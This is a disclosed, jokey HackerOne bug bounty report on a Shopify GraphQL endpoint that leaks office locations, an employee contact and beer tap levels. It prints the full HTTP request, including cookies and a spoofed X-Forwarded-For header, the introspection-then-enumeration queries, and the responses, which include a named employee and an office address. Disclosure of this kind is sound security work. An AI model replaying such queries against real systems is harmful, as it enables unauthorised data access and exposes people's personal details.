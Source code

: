 # H1514 [beerify.shopifycloud.com] GraphQL discloses internal beer consumption

## Report Details
- **Report ID**: 419883
- **URL**: https://hackerone.com/reports/419883
- **State**: Closed
- **Severity**: none
- **Submitted**: 2018-10-05T23:33:41.819Z
- **Disclosed**: 2019-05-08T19:15:14.581Z

## Reporter
- **Username**: emitrani
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi security team,

**Summary:** With great pleasure we would like to report that we have discovered a GraqhQL endpoint that discloses internal beer consumption at your offices. 

**Description:** This endpoint is leaking internal app details about how much beer you have left on any given day.

## Steps To Reproduce:


  1) Do a blanket graphql introspection query on shopifycloud domains and download it.
{F356253}
  2) Send following query to find out what locations are configured with the app.

```
POST /graphql HTTP/1.1
Host: beerify.shopifycloud.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/json
Cookie: _y=36f02e8b-0639-47BB-8F16-B17F7ED46D62; _shopify_y=36f02e8b-0639-47BB-8F16-B17F7ED46D62; _shopify_fs=2018-10-02T22%3A40%3A00.828Z; master_device_id=fc39122b-3f8d-4407-a889-e8090ce47540; _s=3776a811-97F6-43EF-EDB5-757C5727133E; _shopify_s=3776a811-97F6-43EF-EDB5-757C5727133E; _shopify_sa_t=2018-10-03T01%3A12%3A12.231Z; _shopify_sa_p=
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1, 127.0.01, 127.0.0.1
X-HackerOne: Shopify
Content-Length: 69

{"query": "query allLocations{allLocations{address, code, contact}}"}
```
#### Response:
```
HTTP/1.1 200 OK
Server: nginx/1.15.4
Date: Fri, 05 Oct 2018 23:13:45 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Vary: Accept-Encoding
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
Referrer-Policy: strict-origin-when-cross-origin
X-Cusco-Version: 0.4.10
ETag: W/"fb29943639fffbdc10edcc9fcc2645bc"
Cache-Control: max-age=0, private, must-revalidate
X-Request-Id: 77418b20cbbea262c662e9af85afdfa3
X-Runtime: 0.013611
Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
X-Dc: gke
X-Dc: gke
Content-Length: 152

{"data":{"allLocations":[{"address":"150 Elgin Street, Ottawa, ON, Canada, K2P1L4","code":"OTT150, 8th Floor","contact":"Alana Plomp (@alana.plomp)"}]}}
```

 Now with the response we learn the person working there as well as the code which is needed for the next step.
3) Use the code to pivot into critical information disclosure of beer consumption in the office
```
{"query": "query location{location(code:\"OTT150, 8th Floor\"){taps{edges{node{percentRemaining, beer{brewery, ibu, style, tastingNotes, beerLogo, abv}}}}}}"}
```
#### Response:

```
{"data":{"location":{"taps":{"edges":[{"node":{"percentRemaining":89,"beer":{"brewery":"Beau's Brewing Co","ibu":30,"style":"American-style Brown Ale","tastingNotes":"American Brown Ale pours dark brown with reddish highlights and a tan foam. The aroma features dark notes of cacao and molasses. The flavour is balanced between rich maltiness and hop bitterness. The finish offers clean dark malt with a touch of raisiny fruit.","beerLogo":"","abv":5.6}}},{"node":{"percentRemaining":2,"beer":{"brewery":"Beaus","ibu":20,"style":"Witbier","tastingNotes":"Match made is a slightly hazy Belgian-style witbier that features the pairing of tart, refreshing lime with the exotic spiciness of cumin. Thirst-quenching and food-friendly!","beerLogo":"","abv":5.6}}}]}}}}
```
4) Realize this location has a thirst for Witbier and plan your visit accordingly by bringing a 6 pack to the event
{F356254}

## Impact

This gives hackers who discover this endpoint an advantage as we know what kinds of beer Shopify employees enjoy and can use this to win them over during the event.

Cheers,
Eray & Rojan

## Attachments
- image_(3).png
- images.jpg
